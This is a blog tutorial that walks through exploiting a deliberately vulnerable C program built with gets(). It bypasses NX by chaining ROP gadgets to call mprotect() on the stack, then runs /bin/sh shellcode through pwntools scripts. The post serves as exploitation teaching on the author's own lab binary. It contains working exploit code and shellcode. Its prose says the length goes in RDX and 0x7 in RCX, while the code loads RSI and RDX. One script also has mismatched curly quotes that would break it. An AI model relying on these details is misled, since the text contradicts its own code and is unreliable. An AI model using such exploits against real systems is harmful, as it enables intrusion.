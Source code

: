 ```yaml
---
layout: post
title:	"ELF x64 Bypass NX with mprotect()"
date:	2020-08-25
categories:
    - blog
tags:
    - binary
---
```



In this blogpost, I’ll explain how to bypass **NX** using **mprotect()** in order to make the stack executable.

For this purpose, I created the following vulnerable C program.

~~~
#include <stdio.h>

int main(int argc, char **argv){

    char input[256];
    gets(input);

    printf("%s", input);
    printf("\n");
    return 0;
}
~~~

This is the gcc command to compile the executable with **NX** enabled and **PIE** disabled.

~~~
gcc -o chall chall.c -fno-stack-protector -no-pie -Wl,-z,noexecstack
~~~

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img1.png)

**ASLR** should be disabled, how we can see **NX** is enabled.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img2.png)
![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img3.png)

Let’s run the executable in gdb. In order to trigger the buffer overflow we will give 300 ‘A’s as input.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img4.png)

as we expected, the **RBP** register is overwritten with our ‘A’s.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img5.png)

By using pattern_create, we can generate a payload in order to calculate the exact offset that overwrite the **RIP** register. Because the executable is a 64 bit ELF, the maximum address is **0x7FFFFFFFFFFFF**, we can overwrite the **RIP** register by adding 8 byte to the **RBP** register.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img6.png)

The **RBP** register is overwritten by the value **0x3769413669413569**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img7.png)

Using pattern_offset, we can calculate the offset.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img8.png)

Because the executable is a 64 bit ELF, the maximum address is **0x7FFFFFFFFFFFF**, we can overwrite the **RIP** register by adding 8 byte to the **RBP** register and using the following value.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img9.png)

We successfully overwrite the **RIP** register with the value **0x0000424242424242**.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img10.png)

Because NX is enabled, our stack is not executable, we can use the **[mprotect()](https://www.man7.org/linux/man-pages/man2/mprotect.2.html)** function in order to make the stack executable.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img11.png)

as reported in the documentation:

~~~
mprotect() changes the access protections for the calling process's memory pages containing any part of the address range in the interval [addr, addr+len-1].  addr must be aligned to a page boundary.

If the calling process tries to access memory in a manner that violates the protections, then the kernel generates a SIGSEGV signal for the process.

prot is a combination of the following access flags: PROT_NONE or a bitwise-or of the other values in the following list: 

PROT_NONE: The memory cannot be accessed at all.

PROT_READ: The memory can be read.

PROT_WRITE: The memory can be modified.

PROT_EXEC: The memory can be executed.

...
~~~

We will set address to **0x7fffffffe000**, the value **0x1000** as length and the protection to **RWX**, which is **0x7**.

The calling convention for ELF 64 is the following: 
* Arguments in RDI, RSI, RDX, RCX, R8, R9 
* Return Value in RAX 

So we need to put the stack address in the **RDI** register, the length in the **RDX** register and the value **0x7** in the **RCX** register.

Using gdb, it is possible to find the **mprotect()** address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img12.png)

Using ROPgadget, we can find the gadgets we need to put the values into the registers.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img13.png)

There is no “pop rdx” instruction in our binary, we can look for it into the libc.

Using the vmmap command, we can see the libc address.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img14.png)

And with ROPgadget, we can find the offset of the gadget.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img15.png)



Using the following exploit, we can use the “attach” command into gdb in order to debug the process and find our shellcode address.

~~~
from pwn import *
import struct

p = process("./chall")

libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += struct.pack("Q",0x00000000004011fb) # pop rdi ; ret
payload += struct.pack("Q",0x7fffffffe000) # stack address
payload += struct.pack("Q",0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += struct.pack("Q",0x1000) # size
payload += struct.pack("Q",0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += struct.pack("Q",libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += struct.pack("Q",0x7) #mode
payload += struct.pack("Q",0x7ffff7eea1e0) # mprotect address
payload += “B” * 8
payload += "C” * 200
raw_input()

p.sendline(payload)
p.readline()
p.interactive()
~~~

Let's run the script, use the command "attach 12889" in gdb and then let the execution continue.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img16.png)

As we can see, our ‘C’s start from **0x7fffffffe210**.
Let’s update our script with a shellcode and try to pop a bash shell, after the **mprotect()**, our stack will be executable.

~~~
from pwn import *
import struct

p = process("./chall")

shellcode = "\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
libc_address = 0x00007ffff7df2000

payload = ""
payload += "A" * 264
payload += struct.pack("Q",0x00000000004011fb) # pop rdi ; ret
payload += struct.pack("Q",0x7fffffffe000) # stack address
payload += struct.pack("Q",0x00000000004011f9) # pop rsi ; pop r15 ; ret
payload += struct.pack("Q",0x1000) # size
payload += struct.pack("Q",0xAAAAAAAAAAAAAAAA) #garbage for r15
payload += struct.pack("Q",libc_address+0x000000000003fa6a) # pop rdx ; ret
payload += struct.pack("Q",0x7) #mode
payload += struct.pack("Q",0x7ffff7eea1e0) # mprotect address
payload += struct.pack("Q",0x7fffffffe210) # shellcode address
payload += shellcode

p.sendline(payload)
p.readline()
p.interactive()
~~~

And yes, it works.

![Screenshot]({{ site.baseurl }}/images/2020-08-25-elfx64-bypass-nx-with-mprotect/img17.png)

